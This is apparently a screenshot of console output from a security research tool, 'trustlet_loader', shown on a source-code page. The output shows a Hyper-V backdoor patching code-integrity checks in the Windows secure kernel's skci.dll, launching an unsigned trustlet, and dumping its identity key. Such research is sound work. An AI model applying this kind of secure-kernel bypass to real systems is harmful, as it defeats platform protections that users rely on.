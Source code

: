 ```
> .\trustlet_loader.exe .\trustlet_demo.exe --test-demo
[+] Hyper-V backdoor is running
[+] Collecting secure kernel information...
[+] Reading collected data from 0xfffff833df600d80...
[+] Secure kernel IDT vector #0 is at 0xfffff800582d7400
[+] securekernel.exe is at 0xfffff80058295000
[+] skci.dll is at 0xfffff8005838a000 (phys: 0x612d000)
[+] skci.dll image size is 0x4e000 bytes
[+] skci!SkciFinishImageValidation() RVA is 0x20f0
[+] 17 functions, 164 basic blocks and 1795 instructions was disassembled
Patching location at address skci+3ca98 (phys: 0x6169a98)
Patching location at address skci+3cb9d (phys: 0x6169b9d)
Patching location at address skci+3cce1 (phys: 0x6169ce1)
Patching location at address skci+3cda6 (phys: 0x6169da6)
Patching location at address skci+3ceac (phys: 0x6169eac)
Patching location at address skci+40227 (phys: 0x616d227)
Patching location at address skci+4022e (phys: 0x616d22e)
[+] 7 instructions was patched
[+] Trustlet executable path is ".\trustlet_demo.exe"
[+] Secure process 8628 started
Patching location at address skci+3ca98 (phys: 0x6169a98)
Patching location at address skci+3cb9d (phys: 0x6169b9d)
Patching location at address skci+3cce1 (phys: 0x6169ce1)
Patching location at address skci+3cda6 (phys: 0x6169da6)
Patching location at address skci+3ceac (phys: 0x6169eac)
Patching location at address skci+40227 (phys: 0x616d227)
Patching location at address skci+4022e (phys: 0x616d22e)
[+] 7 instructions was restored
[+] Creating RPC binding...
[+] Calling RPC server to obtain trustlet identy key...
[+] Trustlet identy key size is 299 bytes
00000000: 2b 01 00 00 01 00 00 00  23 01 00 00 00 00 00 00  | +.......#.......
00000010: 52 53 41 31 00 08 00 00  03 00 00 00 00 01 00 00  | RSA1............
00000020: 00 00 00 00 00 00 00 00  01 00 01 dd 3c 73 1a 18  | ............<s..
00000030: 48 89 d8 a0 9d ed 1c bc  eb 3e ea e5 de 98 f3 da  | H........>......
00000040: a9 02 0c d5 5e 42 c0 68  9b 1a 4e 1e 21 91 c0 1a  | ....^B.h..N.!...
00000050: 98 72 c4 0d e7 41 90 f6  3c fd fd c4 49 02 f5 22  | .r...A..<...I.."
00000060: c5 11 59 de 7d aa f3 d2  25 7c a1 1b da d5 c6 33  | ..Y.}...%|.....3
00000070: 21 5c 4a c5 58 36 6e f1  82 93 a3 35 d8 d2 4f 21  | !\J.X6n....5..O!
00000080: 97 77 98 8b 2c 5c 51 7a  b0 a6 48 29 f8 28 23 18  | .w..,\Qz..H).(#.
00000090: 6c 70 79 a1 11 d5 c3 92  d5 96 26 0c 70 4b e9 7d  | lpy.......&.pK.}
000000a0: 9b f8 9d a0 0b 61 56 24  a3 f8 79 54 c9 0b f4 b0  | .....aV$..yT....
000000b0: db 4b 4f fd 62 5f 0a 38  da 8b 27 68 bc cd d8 fe  | .KO.b_.8..'h....
000000c0: 49 a6 1e d1 04 9d 87 53  6a e7 20 1b a1 f2 39 70  | I......Sj. ...9p
000000d0: fc 40 12 47 be a3 09 20  31 8c ac 1a 84 8a 59 a4  | .@.G... 1.....Y.
000000e0: 61 61 4b f9 63 ea 2a 8e  4f a2 19 ae a0 ca 44 31  | aaK.c.*.O.....D1
000000f0: a8 13 c7 3a 99 d1 13 14  9b 64 ea 32 10 9f 45 6b  | ...:.....d.2..Ek
00000100: d7 19 74 18 91 24 18 9d  65 fd 8c 3d 51 66 fa 30  | ..t..$..e..=Qf.0
00000110: 40 99 ad 46 db e4 cd 45  f2 a3 e0 15 8c ce 31 18  | @..F...E......1.
00000120: fd 59 a0 41 6c b9 24 9d  32 9e 27                 | .Y.Al.$.2.'
[+] Calling RPC server to terminate running trustlet...
[+] Secure process exit code is 0x00000000
[+] Done
```
